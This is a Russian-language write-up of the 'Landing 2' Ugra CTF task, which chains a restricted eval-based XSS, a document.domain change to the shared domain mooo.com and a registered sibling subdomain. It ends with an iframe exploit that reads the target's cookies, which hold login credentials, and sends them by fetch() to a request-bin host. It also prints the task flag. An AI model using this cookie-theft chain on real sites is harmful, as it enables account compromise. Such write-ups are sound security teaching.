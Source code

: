 # Landing 2: Write-up

В этом задании нужно удивиться от того, что к описанию приложен сайт не на домене Ugra CTF: [uniiiu.mooo.com](https://uniiiu.mooo.com), и долго думать, что с этой информацией делать, ведь как и ожидается от зеркала, содержит он ровно то же самое, что и сайт из задания Landing.

Почитав исходный код сайта, видим в конце следующий HTML:

```html
<div id="ctrlEnter" style="display: none; position: fixed; left: 50%; top: 50%; transform: translate(-50%, -50%); background-color: #ffffff; padding: 16px; z-index: 20; border: 1px solid black;">
	<h3>Заметили ошибку?</h3>
	<span style="display: block; width: 600px;">Наши специалисты не очень хорошо знают русский язык, поэтому, если вы заметили опечатку, пожалуйста, приложите ссылку, по которой написано, как правильно писать.</span>
	<form action="/bir5lil0vqnfe53c/ctrl-enter/" method="POST">
		<textarea name="text" style="width: 600px; height: 300px; resize: none;"></textarea><br>
		<input class="loginButton" type="submit" value="Отправить">
	</form>
</div>

<script type="text/javascript">
	document.addEventListener("keypress", e => {
		if(e.ctrlKey && e.key === "Enter") {
			ctrlEnter.style.display = "";
		}
	});
</script>
```

Текст «приложите ссылку, по которой написано, как правильно писать» намекает, что задание на XSS. Для теста воспользуемся, например, сайтом [requestbin.com](https://requestbin.com). Если отправить сгенерированную ссылку (в моем случае — https://eo5lxkppxdv416x.m.pipedream.net) через Ctrl-Enter, через короткое время придет GET-запрос. Это подтверждает, что редактор читает любые присланные ссылки.

Чтобы удостовериться, что эта уязвимость точно относится к этой части задания, можно зарегистрироваться на сайте и отправить сообщение об опечатке под своим логином. В этом случае в личные сообщения на сайте придет ответ следующего вида:

> **От editor:**
>
> > Вы отправили сообщение об ошибке: [текст]. Скоро мы его рассмотрим.

Как проэксплуатировать XSS? Можно проверить, что при регистрации и входе логин и пароль сайт кладет в куки без флага httponly, поэтому, вероятно, достаточно научиться выполнять JS-код на сайте УНИИИУ. Но как обойти CORS? И зачем дано зеркало?

Поисследуем сайт еще. Раздел «Наша уцуцуга» дан не просто так. И уцуцуга там правда есть: между двумя картинками вставлен тег `<script>` со следующим содержимым:

```html
<script>s=decodeURIComponent(location.search.substr(1)); if(/^[".=acdeimnotu]*$/.test(s)) eval(s);</script>
```

Это дает нам возможность ограниченного XSS. Разрешенные символы указывают на то, что можно использовать некоторые строки, а также обращаться к свойствам с символами из набора `acdeimnotu`. Переберем в браузерной консоли все доступные глобальные свойства, состоящие только из этих символов.

```javascript
function enumerateProperties(object) {
	const properties = [];
	while(object !== null) {
		for(const name of Object.getOwnPropertyNames(object)) {
			if(/^[acdeimnotu]+$/.test(name)) {
				properties.push(name);
			}
		}
		object = object.__proto__;
	}
	return properties;
}
```

Для удобства реализуем рекурсивный поиск всех свойств, чтобы не делать это руками:

```javascript
function enumeratePropertiesRecursive(object) {
	const queue = [{object, path: []}];
	const visitedObjects = new Set();
	visitedObjects.add(object);

	for(let i = 0; i < queue.length; i++) {
		const {object, path} = queue[i];
		for(const property of enumerateProperties(object)) {
			if(!visitedObjects.has(object[property])) {
				queue.push({object: object[property], path: [...path, property]})
				visitedObjects.add(object[property]);
			}
		}
	}

	return queue.slice(1).map(({path}) => path.join("."));
}
```

```javascript
> enumeratePropertiesRecursive(window);
< [
	"name",
	"oncut",
	"document",
	"ua",
	"name.concat",
	"name.at",
	"document.domain",
	"name.concat.name",
	"name.at.name"
]
```

Переписывать `name`, `ua` и названия функций бесполезно, события — тоже (поскольку мы и так можем выполнять некоторый код), остается `document.domain`. Почитаем на [MDN](https://developer.mozilla.org/en-US/docs/Web/API/Document/domain), что это такое и зачем оно нужно:

> The domain property of the Document interface gets/sets the domain portion of the origin of the current document, as used by the same-origin policy.
>
> ...
>
> The document.domain setter is deprecated. It undermines the security protections provided by the same origin policy, and complicates the origin model in browsers, leading to interoperability problems and security bugs.
>
> ...
>
> Similar problems occur with shared hosting sites that give each customer a different subdomain. If a site sets document.domain, any other customer on a different subdomain can now do the same thing, and start accessing the data of the original site.

Итак, можно заставить сайт поставить `document.domain` на какое-то полезное для нас значение. В документации написано:

> The setter for this property can be used to change a page's origin, and thus modify how certain security checks are performed. It can only be set to the same or a parent domain.

Поэтому имеет смысл ставить либо `uniiiu.mooo.com`, либо `mooo.com`. Эксплуатация и того, и другого требует регистрации поддомена на контроллируемом УНИИИУ домене.

Хм.

Точно контроллируемом УНИИИУ?

Сайт [mooo.com](https://mooo.com) пишет следующее:

![mooo.com](writeup/mooo.com.png)

Регистрируем на [freedns.afraid.org](https://freedns.afraid.org) свой домен, например, `purplesyringa.mooo.com`. Для обхода CORS нужно также, чтобы он использовал HTTPS. Можно поднять nginx с сертфикатом от LetsEncrypt на своем VPS, либо воспользоваться GitHub Pages. Эксплоит:

```html
<iframe src='https://uniiiu.mooo.com/<token>/nasha_ucucuga/?document.domain="mooo.com"'></iframe>

<script>
	document.domain = "mooo.com";

	const iframe = document.querySelector("iframe");
	iframe.addEventListener("load", () => {
		fetch("https://eo5lxkppxdv416x.m.pipedream.net/?" + iframe.contentDocument.cookie);
	});
</script>
```

Флаг: **ugra_thats_just_a_warmup_jhbhtji6p94h**
